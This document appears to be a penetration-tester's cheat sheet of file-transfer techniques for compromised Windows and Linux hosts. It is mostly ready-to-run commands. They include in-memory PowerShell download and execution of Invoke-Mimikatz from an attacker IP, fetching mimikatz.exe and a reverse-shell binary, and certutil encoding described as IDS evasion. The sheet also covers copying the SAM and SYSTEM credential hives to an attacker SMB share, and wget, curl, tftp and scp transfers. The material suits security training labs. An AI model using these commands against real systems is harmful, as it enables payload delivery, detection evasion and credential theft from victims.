 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

***Important Note :*** In case of cmd shell and not powershell prompt, you can execute powershell command using "powershell -c 'COMMAND'". As exemple :
C:\Users\bill\Documents>powershell -c "(New-object System.Net.WebClient).DownloadFile('http://10.0.0.1:8000/myreverseshell.exe','C:\tmp\myreverseshell.exe')"

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

#### Copy
Upload a file from the Windows victim machine to the kali attacker machine.

```
#On the attacker kali machine, deploy a smb server
sudo python3 /opt/impacket/examples/smbserver.py kali .

#On the windows victime machine, upload the file
copy C:\Windows\Repair\SAM \\AttackerIP\kali\
copy C:\Windows\Repair\SYSTEM \\AttackerIP\kali\
```

**Note:** The files are stored in the folder where the shell execute the command not in the impacket folder or kali folder. As example, If you execute the command "sudo python3 /opt/impacket/examples/smbserver.py kali ." from the /home/kali/test/ folder, the files will be stored inside.

# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :

• From the attacker machine, download something from the victim machine (using password)
# scp <file_to_download> <username>@<ip>:/<location> <where_to_upload>
root# scp myfile.txt user@10.0.0.1:/home/user
user@10.0.0.1's password:
OR for download a complete repository 
root# scp myfile.txt user@10.0.0.1:/home/user/* .

• From the the attacker machine, download something from the victim machine (using ssh key)
# scp -i <ssh_key>  <username>@<ip>:/<location>/<file> <where_to_upload>
scp -i sshkey.pem user@10.0.0.1:/home/user/test.txt /tmp/

• From the attacker machine, upload something on a the victim machine
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1

• From the victim machine, upload something on the attacker machine
scp myfile.txt root@10.0.0.1:/root/ .
```
